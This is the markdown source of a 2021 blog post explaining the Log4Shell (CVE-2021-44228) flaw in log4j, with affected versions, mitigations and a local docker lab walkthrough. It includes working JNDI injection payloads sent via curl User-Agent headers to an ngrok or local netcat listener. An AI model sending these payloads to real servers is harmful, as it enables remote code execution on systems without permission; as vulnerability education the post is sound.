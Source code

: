 ```yaml
---
title: "Play with log4shell; just for fun."
date: 2021-12-12
author: "John Stilia"
description: "Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package"
categories: [Java, RCE, 0-day]
tags: [Java, 0-day, RCE, log4j, CVE-2021-44228, CVE]

# resources:
# - name: featured-image
#   src: java-vurn.png
# - name: featured-image-preview
#   src: log4j-1.png

draft: false
lightgallery: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  auto: false
comment:
  enable: true
---
```


Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package

<!--more-->

{{< admonition danger>}}
For educational purposes only. Please do not use it for illegal purposes.

I am not a Java Developer, and I am not responsible for any damage caused by this code.

This is a proof of concept.
{{< /admonition >}}

A 0-day exploit in the popular Java logging library log4j (version 2) resulted in Remote Code Execution (RCE) by logging a particular string.
The impact of this vulnerability is quite severe. It is called "Log4Shell" for short. Considering how widespread this library is, this impact can result in complete server control.

The initial mention of the vulnerability was made by [@P0rZ9](https://twitter.com/P0rZ9) on [Twitter](https://twitter.com/P0rZ9/status/1468949890571337731).

# What is JNDI?

The Java Naming and Directory Interface is a Java API for a directory service that allows Java software clients to discover and look up data and resources via a name.
Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation

# ${jndi:ldap://example.com/a}

Log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) in the form `${prefix:name}` where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) where name should be evaluated.
For example, `${java:version}` is the current running version of Java.
LOG4J2-313 added a jndi Lookup as follows: `“The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”`
With a `:` present in the key, as in `${jndi:ldap://example.com/a}` there’s no prefix and the LDAP server is queried for the object. And these Lookups can be used in both the configuration of Log4j as well as when lines are logged.

# Who is Impacted

Anybody using Apache Struts is likely vulnerable. In particular, any Log4J version prior to v2.15.0 is affected by this vulnerability.
In addition, the version 1 branch of Log4J is vulnerable to other RCE attacks and should be updated.

Many companies have been impacted, including big names such as Apple, Amazon, Twitter, and Tesla.
Here is a comprehensive list of impacted companies as of the time of the vulnerability release. [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface#the-list)

## Affected Apache log4j2 versions​

2.0 <= Apache log4j <= 2.14.1

## Permanent Mitigation​

Version 2.15.0 of log4j has been released without the vulnerability. log4j-core.jar is available on Maven Central here, with [release notes] and [log4j security announcements](https://logging.apache.org/log4j/2.x/security.html).

## Temporary Mitigation

As per the discussion at [HackerNews](https://news.ycombinator.com/item?id=29507263) there are few ways to mitigate this vulnerability temporarily.
{{< admonition note>}}
If you are using a version older than 2.10.0 and cannot upgrade,
your mitigation choices are:

- Modify every logging pattern layout to say %m{nolookups}
  instead of %m in your logging config files,
  see details at <https://issues.apache.org/jira/browse/LOG4J2-2109>

or

- Substitute a non-vulnerable or empty implementation of the
  class org.apache.logging.log4j.core.lookup.JndiLookup,
  in a way that your classloader uses your replacement instead
  of the vulnerable version of the class.
  Refer to your application's or stack's classloading
  documentation to understand this behaviour.
  {{< /admonition >}}

# Digging deeper

The Java Naming and Directory Interface (JNDI) is a Java API for a directory service that allows you to interface with LDAP or DNS to look up data and resources. Unfortunately, one of the data types that can be returned is a URI pointing to a Java class — and if you load an untrusted Java class, then you’re unwittingly executing someone else’s code.

Even logging a message like the following can trigger a remote LDAP call, causing a criminal Java class to be instantiated.

`log.info("this is a security nightmare! {}", userInput);`

A real-world example of this same issue would be:

`log.info("Request User-Agent: {}", userAgent);`

A curl request to a remote server would look like this:

`curl -H 'User-Agent: ${jndi:ldap://ee32-de2f-71a.ngrok.io:8888/a}' https://vurnable-host.com/`

Where `ee32-de2f-71a.ngrok.io:8888` could be a netcat listener running.

As seen on [www.fastly.com](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j/)
{{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-2.png" title="How the attack works" >}}

# Fun time, exploit all the things

- Head to [leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)
- After cloning the repo, run the following command:

  `docker build -t log4jpwn .` # This will build a docker image from the current directory.

- Run the docker image:

  `docker run --rm -p5555:8080 log4jpwn`

- start a netcat listener on port 8888

  `nc -lnvp 8888`

- Get your docker interface host ip address:

  `ip a s docker0 | grep inet | awk '{print $2}' | cut -d/ -f1`
  {{< admonition tip >}}
  That would work in Linux and macOS, but not windows.
  Replace the `docker0` with your docker interface name.
  {{< /admonition >}}

- Exploit the _log4j_ vulnerability.
  `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:5555`
  We can clearly see the log4j library attempted a connection on the netcat listener.
  {{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-1.png" >}}

Here we can see the vulnerable library did a callout to the netcat listener. This could be used for all short of attacks.
For more info, look at:

- <https://github.com/xiajun325/apache-log4j-rce-poc>
- <https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w>

# References

- <https://www.lunasec.io/docs/blog/log4j-zero-day/>
- <https://github.com/leonjza/log4jpwn>
- <https://github.com/YfryTchsGD/Log4jAttackSurface>
- <https://logging.apache.org/log4j/2.x/security.html>
- <https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j>
- <https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w>
- <https://github.com/xiajun325/apache-log4j-rce-poc.git>
- <https://github.com/mbechler/marshalsec.git>
- <https://logging.apache.org/log4j/2.x/manual/lookups.html>
- <https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution>
- <https://issues.apache.org/jira/browse/LOG4J2-313>
- <https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/>
